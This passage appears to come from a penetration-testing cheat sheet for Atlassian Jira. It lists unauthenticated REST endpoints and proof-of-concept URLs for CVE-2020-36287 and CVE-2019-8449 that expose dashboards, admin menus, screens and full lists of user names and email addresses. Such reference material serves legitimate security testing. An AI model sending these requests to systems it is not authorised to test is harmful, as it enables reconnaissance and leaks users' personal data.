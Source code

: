 **Unauthenticated Dashboards**

**Privileges Required**: `None` **POC**: `https://<JIRA>/rest/api/2/dashboard?maxResults=100`

**Resolution**

**Privileges Required**: `None` **POC**: `https://<JIRA>/rest/api/2/resolution`

**Admin Project Dashboard Accessible**

**Privileges Required**: `None` **POC**: `https://<JIRA>/rest/menu/latest/admin`

**Project Group Found**

**Privileges Required**: `None` **POC**: `https://<JIRA>/rest/api/2/projectCategory?maxResults=100`

**CVE-2020-36287**

**Version**: `< 8.13.5`, `8.14.0 <= x < 8.15.1` (Jira version) **CVSS 3.x**: `5.3 MEDIUM AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N` **Privileges Required**: `None` **POC**:

Copy

```
https://<JIRA>/secure/QueryComponent!Default.jspa
https://<JIRA>/secure/Dashboard.jspa
https://<JIRA>/rest/dashboards/1.0/10000/gadget/{ID}/prefs
```

**POC**: `https://github.com/f4rber/CVE-2020-36287`

**Jira Unauthenticated Access to screens**

**Privileges Required**: `None` **POC**: `https://<JIRA>/rest/api/2/screens`

**Atlassian Connect Descriptor**

**Privileges Required**: `None` **POC**: `https://<JIRA>/atlassian-connect.json`

**Jira Unauthenticated Installed gadgets**

**Privileges Required**: `None` **POC**: `https://<JIRA>/rest/config/1.0/directory`

***

#### User Information Disclosure <a href="#user-information-disclosure" id="user-information-disclosure"></a>

**CVE-2019-8449**

**Version**: `< 8.4.0` (Jira version) **CVSS 3.x**: `5.3 MEDIUM AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N` **Privileges Required**: `None` **POC**: `https://<JIRA>/rest/api/latest/groupuserpicker?query=1&maxResults=50000&showAvatar=true`

**via UserPickerBrowser**

**Privileges Required**: `Low`, but sometimes can be `None` **Explanation**: It is a complete list of every user’s username and email address. There are three standard user groups in Jira: Administrators, Jira Users, and Anyone. For one reason or another, an administrator may grant the ‘Anyone’ group access to this functionality. This grants anyone access to the function – even anonymous users. **POC**: `https://<JIRA>/secure/popups/UserPickerBrowser.jspa`

